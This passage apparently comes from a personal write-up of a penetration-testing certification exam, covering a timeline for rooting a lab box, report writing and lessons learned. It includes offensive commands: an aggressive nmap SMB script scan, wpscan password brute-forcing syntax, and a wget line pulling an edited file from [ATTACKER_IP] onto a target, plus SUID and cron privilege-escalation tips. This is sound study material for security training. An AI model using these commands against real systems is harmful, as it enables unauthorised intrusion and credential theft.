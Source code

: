 **Rooting Mercy and Finishing the Exam**

- Using autorecon I found some useful new information, and I had access to a fileshare at 08:48
- By 09:05 I'd exposed the hidden services on the box, and had access to an administrative console
- By 09:14 I had code execution on the box
- I immediately ran LinPEAS as I only had 20 minutes left - I spotted a crucial file misconfiguration at 09:38, with less than ten minutes to go
- I struggled with the terrible shell that I had, but eventually rooted the box - I was actually five minutes over the allowed time, but I counted it as a win

#### Report Writing

- I was pretty tired, and spent 10:00 - 13:30 slowly documenting what I'd done with a few breaks
- By 13:38 I started the report itself - I took quite a few breaks, and only really spent 3.5-4 hours total on it spread over nearly 9 hours
- I had finished the report by 20:36

### Lessons Learned

General Methodology:
- If you're struggling with a foothold, look for slightly less common file extensions in your scan names - `.txt`, `.pl`, `.sh`, `.cgi`
- Even if you don't love `autorecon`, run it when you're stuck! I prefer manual enumeration initially, but some of autorecon's choices of `nmap` scripts found things I couldn't find manually
- This `nmap` command is great for enumerating SMB share contents if you can't find anything with `smbclient` or `smbmap`: `nmap -vv --reason -Pn -sV -p 139 "--script=banner,(nbstat or smb* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args=unsafe=1`
- If you have a username or a password, try it on ALL services! Password reuse is a common foothold vulnerability
	- Similarly, if you can't get anonymous access to a service (SMB, FTP etc) don't forget about it once you *do* have creds - I put these services aside once I couldn't get access, and it took a while to click that I might have password reuse
- Google the version numbers for *every* service - even if it's not a service you'd usually attack, such as SSH
- Spending time reviewing all the information you have is a valuable activity and can help you spot attack vectors

New Tricks, Tools, and Skills:
- To view all autorecon results at once, navigate to `scans/[IP]/results` and type `cat *.txt | less`
- `wpscan` has a brute-force mode that uses XMLRPC to guess passwords, which can save you using a metasploit allowance when brute forcing `/wp-admin` logins - the syntax is `wpscan --url [URL] --usernames [LIST] --passwords [LIST]`
- If you have a bad shell with limited interactivity (i.e. no text editors), a good way of overwriting a file on the target is to edit and host it locally, and then use `wget -O target_file http://[ATTACKER_IP]/edited_file`

Privilege Escalation:
- if a 'vulnerable' file (e.g. a SUID, cron job running as root etc) looks familiar (i.e. a standard SUID like `passwd`), don't ignore it - it's slower, but checking each of these files' permissions manually could show you a writeable binary that you can hijack

Note Taking for Report:
- if you got access to FTP/SMB file contents via an automated script like `nmap`, make sure you can explain *why* - it's helpful to get a screenshot of a manual version of the command, so you can explain what led to the access (e.g. weak credentials, null authentication etc)
- **ALWAYS** copy the final command you used for a shell
- get a screenshot of the command/action you used to spawn a shell, as well as the shell returning - for example, note down the URL of a request to a webshell and take a screenshot of the page or a Burp Repeater window
- Remember to fill in the appendices for proof file contents, meterpreter usage etc
- I also restructured my report this time to include the `nmap` results for each machine with the rest of that machine's writeup, instead of having all scans in the Information Gathering section
